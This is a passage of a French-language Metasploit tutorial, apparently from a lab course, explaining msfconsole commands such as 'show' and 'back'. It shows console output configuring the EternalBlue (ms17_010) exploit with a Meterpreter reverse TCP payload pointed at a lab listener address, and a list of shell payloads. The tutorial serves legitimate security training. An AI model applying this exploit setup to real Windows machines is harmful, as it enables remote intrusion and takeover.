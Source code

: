 ```shell


Payload options (windows/x64/meterpreter/reverse_tcp): 

Name     Current Setting Required Description
----     --------------- -------- ----------- 
EXITFUNC thread          yes      Exit technique (Accepted: '', seh, thread, process, none) 
LHOST    10.10.220.191   yes      The listen address (an interface may be specified) 
LPORT    4444            yes      The listen port

Exploit target: 

	Id Name 
	-- ---- 
	0  Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

### Show

La commande **`show`**  peut être utilisé avec tout type de modules, si elle est exécuté à partir de l'invite msfconsole, elle **listera tous les modules**.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > show payloads

Compatible Payloads
===================

#  Name                                       Disclosure Date Rank   Check Description
-  ----                                       --------------- ----   ----- ----------- 
0  generic/custom                                             manual No    Custom Payload
1  generic/shell_bind_tcp                                     manual No    Generic Command Shell, Bind TCP Inline
2  generic/shell_reverse_tcp                                  manual No    Generic Command Shell, Reverse TCP Inline 
3  windows/x64/exec                                           manual No    Windows x64 Execute Command 
4  windows/x64/loadlibrary                                    manual No    Windows x64 LoadLibrary Path
5  windows/x64/messagebox                                     manual No    Windows MessageBox x64 
6  windows/x64/meterpreter/bind_ipv6_tcp                      manual No    Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager
7  windows/x64/meterpreter/bind_ipv6_tcp_uuid                 manual No    Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager with UUID Support
```

### Back

La commande **`back`** permet de **quitter un contexte**.
